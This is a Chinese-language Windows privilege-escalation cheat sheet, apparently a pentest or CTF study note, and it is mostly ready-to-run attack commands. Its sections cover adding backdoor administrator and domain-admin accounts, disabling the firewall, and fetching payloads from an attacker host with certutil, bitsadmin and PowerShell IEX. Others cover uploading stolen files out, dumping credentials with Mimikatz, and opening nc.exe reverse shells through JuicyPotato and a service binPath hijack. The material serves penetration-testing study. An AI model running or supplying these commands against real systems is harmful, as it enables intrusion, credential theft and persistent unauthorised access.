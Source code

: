 
### 常用工具

* https://lolbas-project.github.io/



### 信息收集


```bash
chdir
whomai /priv
whoami /groups
query user
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
tree /A /F
ipconfig /all
schtasks /query /fo LIST /v
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
PS> Get-ChildItem -Path C:\Users -Recurse -Include root.txt

dir /r
attrib *.* -h -s /s /d
findstr /si password *.xml *.ini *.txt+
where /R C:\\ proof.txt or where /R C:\\ local.txt

net user
net groups
net user 0x584a 0x584a /add
net localgroup "Remote Desktop Users" "0x584a" /add
net localgroup "Administrators" "0x584a" /add


net users /domain
net groups /domain
net user 0x584a 0x584a /add /domain /y
net group "domain controllers" /domain
net group "domain admins" 0x584a /add

# SPN查询
C:\\Windows\\Temp>setspn -q */*

for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.

cmdkey /list

type proof.txt && whoami && hostname && ipconfig
cat proof.txt && whoami && hostname && ip addr


dir /r ---> hm.txt:root.txt:$DATA
more < hm.txt:root.txt

# 显示或修改文件的访问控制列表
icacls or cacls
icacls "C:\path"
```



### 常用服务路径

```bash
c:\\Windows\\Temp
c:\\windows\\system32\\cmd.exe
(64-bit) C:\windows\system32\WindowsPowerShell
(32-bit) C:\windows\SysWOW64\WindowsPowerShell
C:\\Windows\\SysNative\\WindowsPowerShell\\v1.0\\PowerShell.exe
SAM文件的路径是 %SystemRoot%\system32\config\sam
```



### 安全防护配置

```bash
# 查看防火墙状态
netsh firewall show state
# 关闭防火墙
netsh firewall set opmode mode=disable

netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
netsh advfirewall show allprofiles
netsh advfirewall firewall set allprofiles state=off
netsh firewall set opmode disable
```



### 文件传递

```bash
certutil -urlcache -f http://0.0.0.0/shell2.php shell2.php
certutil.exe -urlcache -split -f "http://<ATTACKER-IP>:<PORT>/<file>" exploit.exe

bitsadmin /transfer mydownloadjob /download /priority normal http://<ATTACKER-IP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe

cscript wget.vbs <ATTACKER IP>/<FILE> evil.exe

cmd> Python Server Web Service
powershell> Invoke-WebRequest "http://0.0.0.0/winPEASx64.exe" -OutFile "winPEASx64.exe"

# 加载远程脚本模块
powershell> IEX (New-Object Net.WebClient).DownloadString('http://0.0.0.0/Invoke-Kerberoast.ps1')
powershell> IEX (New-Object Net.WebClient).DownloadString('http://0.0.0.0/Invoke-Mimikatz.ps1')
powershell> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
powershell> Invoke-Mimikatz -DumpCreds

# 发送文件
<?php $uploaddir='/var/www/uploads/'; $uploadfile=$uploaddir . $_FILES['file']['name']; move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)?>
powershell> powershell (New-Object System.Net.WebClient).UploadFile('http://<ATTACKER-IP>:<PORT>/upload.php', 'important.docx')

kali> impacket-smbserver share `pwd`
cmd> copy \\<kali ip >\share\nc.exe .\nc.exe

kali> ftp Server
cmd> ftp <IP> --> get --> put

bash> curl --upload-file linpeas.txt http://<IP>:1337/linpeas.txt   <-- PUT 文件传递
```



### powershell

```bash
Invoke-PowerShellTcp.ps1

powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://<IP>/Shell.ps1')"

cmd> powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>/s.ps1')"
cmd> powershell -executionpolicy bypass -file s.ps1

cmd> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline 'c:\\windows\\temp\\nc.exe -e cmd <IP> 9900'"
```



### RUNAS

```bash
runas /user:<localmachinename>\administrator cmd

$secpasswd = ConvertTo-SecureString "0x584a" -AsPlainText -Force 
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",$secpasswd) 
$computer = "computer" 
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe","<ATTACKER-IP> <PORT> -e cmd.exe",$mycreds.Username,$mycreds.Password,$computer)
```



### 内核提权枚举、攻击

```bash
https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1
powershell> IEX(New-Object Net.WebClient).DownloadString('http://0.0.0.0/Sherlock.ps1')
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# exploit只适应x64框架
https://raw.githubusercontent.com/FuzzySecurity/PSKernel-Primitives/master/Sample-Exploits/MS16-135/MS16-135.ps1

windows-exploit-suggester.py --impact "elevation of privilege" systeminfo.txt
```

### 常用工具

* Invoke-PowerShellTcp.ps1
* PowerUp.ps1 --> Invoke-AllChecks
* Seatbelt.exe
* SharpUp.exe
* winPEAS.exe
* Sherlock
* Windows-Exploit-Suggester




### whoami /priv

> SeImpersonatePrivilege 权限下可用工具进行提权：

```bash
juicy-potato*
RogueWinRm
SweetPotato
PrintSpoofer
```



### juicy potato

https://github.com/ohpe/juicy-potato

```bash
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe <kali ip> 9900" -t *

```

Windows 7 Enterprise
Windows 8.1 Enterprise
Windows 10 Enterprise
Windows 10 Professional
Windows Server 2008 R2 Enterprise
Windows Server 2012 Datacenter
Windows Server 2016 Standard



### Print Spoofer

```bash
.\PrintSpoofer.exe -i -c "whoami"


https://github.com/calebstewart/CVE-2021-1675 cve-2021-1675.ps1
在没用 SeImpersonatePrivilege 权限的场景下提权
```


### 术语解析

>  LM Hash & NTLM Hash https://www.anquanke.com/post/id/193149

windows内部是不保存明文密码的，只保存密码的hash。
其中本机用户的密码hash是放在 本地的SAM文件 里面，域内用户的密码hash是存在域控的NTDS.DIT文件 里面。那hash的格式是怎么样的呢?
在Windows系统导出密码的时候，经常看到这样的密码格式
Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0:::
其中的AAD3B435B51404EEAAD3B435B51404EE是LM Hash
31D6CFE0D16AE931B73C59D7E0C089C0是NTLM Hash

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://guif.re/windowseop




## 常用版本提权exploit

### Microsoft Windows Server 2008 R2 Datacenter

MS10_092
ms10-059 Chimichurri
MS15-051

### Microsoft Windows 7 Enterprise

ms10-059 Chimichurri

```
cmd> Chimichurri.exe <IP> 9900
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
```

### Windows 10.0 Build 17763 x64

PrintSpoofer

### 常用服务提权

```bash
sc.exe config vss binPath="C:\Users\svc-printer\Downloads\nc.exe -e cmd.exe <IP> 9900"
sc.exe stop vss
sc.exe start vss
```
